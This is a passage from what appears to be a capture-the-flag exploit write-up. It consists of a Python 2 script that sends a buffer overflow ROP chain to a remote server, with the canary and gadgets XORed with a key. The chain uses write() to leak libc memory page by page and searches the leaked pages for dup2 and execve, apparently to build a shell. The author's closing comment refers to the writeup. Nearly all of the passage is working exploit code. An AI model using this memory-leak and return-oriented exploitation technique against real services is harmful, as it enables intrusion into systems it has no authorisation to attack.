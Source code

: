 ```python

# scan up
print "scanning up"
libc_page = unpack(write_libc) & 0xfffffffffffff000
while dup2_remote_addr == 0 or execve_remote_addr == 0:
    try:
        payload = "davide" + "AA"
        payload += p64(gadget_pop_rdi_ret ^ Ds)
        payload += p64(0x4 ^ Ds)
        payload += p64(gadget_pop_rsi_pop_r15_ret ^ Ds)
        payload += p64(libc_page ^ Ds)   # buffer = page
        payload += p64(0x1337)   # pop r15, dont-care
        payload += p64(gadget_pop_rdx_ret ^ Ds)
        payload += p64(page_size ^ Ds)  # length
        payload += p64(text_section_write_plt ^ Ds)
        # Pad to the end of buffer
        payload += "B" * (1032 - len(payload))
        payload += p64(canary ^ Ds)
        payload += p64(buffer_addr ^ Ds)
        payload += p64(text_section_leave_ret ^ Ds)

        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(SERVER)
        s.recv(4096)  # server hello
        s.send(payload)

        page_data = s.recv(page_size)
        if len(page_data) == 0:
            break

        if dup2_start in page_data:
            dup2_remote_addr = libc_page + page_data.index(dup2_start)
            print "Found dup2 @ {}".format(hex(dup2_remote_addr))

        
        if execve_start in page_data:
            execve_remote_addr = libc_page + page_data.index(execve_start)
            print "Found execve @ {}".format(hex(execve_remote_addr))


        s.close()
        libc_page += page_size  # scan down
    except EOFError:
        break

print "libc scan over"
```
Note: one loop for scanning down, same loop for scanning up - yeah I know it's terrible code but it worked for me when I was constructing it and I wanted to make it more clear for the writeup so I decided to keep it.
